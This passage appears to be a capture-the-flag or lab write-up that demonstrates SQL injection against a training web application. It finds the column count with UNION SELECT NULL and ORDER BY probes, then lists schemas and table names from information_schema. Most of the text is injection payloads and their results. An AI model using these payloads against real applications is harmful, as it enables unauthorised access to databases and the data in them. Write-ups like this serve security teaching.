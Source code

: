 ## Get the number of columns

|goal|query|Error message|
|--|--|--|
|Try to see if there is only 1 column we can exploit| `1 UNION SELECT NULL --` | The used SELECT statements have a different number of columns |
|Try to see if there is only 2 column we can exploit| `1 UNION SELECT NULL, NULL --`| ✅ |

> We use the `--` at the end to comment out any other query that comes after ours


An other way of doin this would ne using `ORDER BY` and check for **errors**.

## Get the number of the tables

|goal|query|Error message|
|--|--|--|
|`ORDER BY` column 1| `1 ORDER BY 1 --` | ✅ |
|`ORDER BY` column 2| `1 ORDER BY 2 --` | ✅ |
|`ORDER BY` column 3| `1 ORDER BY 3 --` | ❌ |

We now know that there are **2** columns. Let's dig dipper.

|goal|query|Error message|
|--|--|--|
| Get **table** names | `1 AND 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables` | ✅ |

From this we get a long list of `table` names and `table_schema` names in the following format.

```text
ID: 1 AND 1=2 UNION SELECT table_schema, table_name FROM information_schema.tables 
First name: <Schema name>
Surname : <Table name>
```

Here is the `schema` and table names that is of interest to us

|No|Schema|Table|
|--|--|--|
|1|Member_Brute_Force|db_default|
|2|Member_Sql_Injection|users|
|3|Member_guestbook|guestbook|
|4|Member_images|list_images|
|5|Member_survey|vote_dbs|

## Get more information from the tables and databases

Let's try to grab one of this tables and see if we can see how many columns there are like we did with the current database (`1 AND 1=0 UNION SELECT null, null --`)
